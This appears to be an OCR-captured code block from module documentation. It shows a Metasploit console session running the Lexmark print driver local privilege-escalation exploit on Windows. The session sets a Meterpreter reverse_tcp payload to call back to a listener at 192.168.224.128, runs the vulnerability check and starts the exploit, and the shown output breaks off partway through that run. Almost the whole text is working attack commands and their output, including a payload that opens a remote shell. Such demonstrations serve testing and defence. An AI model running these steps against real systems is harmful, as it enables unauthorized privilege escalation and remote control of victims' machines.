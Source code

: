 ```
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf6 exploit(windows/local/lexmark_driver_privesc) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/lexmark_driver_privesc) > set LPORT 8877
LPORT => 8877
msf6 exploit(windows/local/lexmark_driver_privesc) > check

[*] Lexmark driver published at oem9.inf
[*] Found 1 possible options:
[*] 	Lexmark Universal v2
[*] No user provided DRIVERNAME. Defaulting to "Lexmark Universal v2"
[*] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
msf6 exploit(windows/local/lexmark_driver_privesc) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > show options

Module options (exploit/windows/local/lexmark_driver_privesc):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   DRIVERNAME                   no        The name of the Lexmark driver to exploit
   SESSION     1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT     8877             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf6 exploit(windows/local/lexmark_driver_privesc) > exploit

[*] Started reverse TCP handler on 192.168.224.128:8877
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Lexmark driver published at oem9.inf
[*] Found 1 possible options:
[*] 	Lexmark Universal v2
[*] No user provided DRIVERNAME. Defaulting to "Lexmark Universal v2"
```